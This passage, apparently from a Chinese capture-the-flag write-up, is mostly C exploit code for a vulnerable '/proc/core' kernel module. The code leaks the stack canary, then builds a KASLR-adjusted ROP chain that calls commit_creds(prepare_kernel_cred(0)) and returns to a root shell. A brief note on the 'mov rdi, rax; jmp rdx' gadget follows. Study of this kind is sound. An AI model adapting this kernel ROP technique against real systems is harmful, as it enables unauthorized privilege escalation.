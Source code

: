```c
        if (!strcmp(cur_func, "prepare_kernel_cred")) {
            prepare_kernel_cred_addr = cur_addr;
            lg(prepare_kernel_cred_addr);
            found++;
        }
    }
}

// void get_root() {
    // void* (*a)(int) = prepare_kernel_cred_addr;
    // void (*b)(void*) = commit_creds_addr;
    // (*b)((*a)(0));
// }

int main() {

    save_status();
    get_func_addrs();

    size_t pop_rdi_ret, pop_rsi_ret, pop_rdx_ret;
    pop_rdi_ret = kaslr_offset + 0xffffffff81000b2f;
    pop_rsi_ret = kaslr_offset + 0xffffffff810011d6;
    pop_rdx_ret = kaslr_offset + 0xffffffff810a0f49;
    size_t swapgs_popfq_ret = kaslr_offset + 0xffffffff81a012da;
    size_t iretq_ret = kaslr_offset + 0xffffffff81050ac2;

    size_t mov_rdirax_jmp_rdx = kaslr_offset + 0xffffffff8106a6d2;

    int fd = open("/proc/core", 2);
    size_t buf[0x800];
    ioctl(fd, 0x6677889C, 0x40);
    ioctl(fd, 0x6677889B, buf);
    size_t canary = buf[0];
    lg(canary);

    int i = 0x40/8;
    buf[i++] = canary;
    buf[i++] = 0xdeadbeef;
    // buf[i++] = (size_t)get_root;
    buf[i++] = pop_rdi_ret;
    buf[i++] = 0;
    buf[i++] = prepare_kernel_cred_addr;
    buf[i++] = pop_rdx_ret;
    buf[i++] = commit_creds_addr;
    buf[i++] = mov_rdirax_jmp_rdx;

    buf[i++] = swapgs_popfq_ret;
    buf[i++] = 0;
    buf[i++] = iretq_ret;
    buf[i++] = (size_t)get_shell;
    buf[i++] = user_cs;
    buf[i++] = user_rflags;
    buf[i++] = user_sp;
    buf[i++] = user_ss;

    write(fd, buf, 0x800);
    ioctl(fd, 0x6677889A, 0xffffffffffff0000|0x100);

    return 0;
}

```

> 主要区别在于 ROP 链的布置，可以注意到 mov rdi, rax; jmp rdx; 的 magic_gadgets 的使用。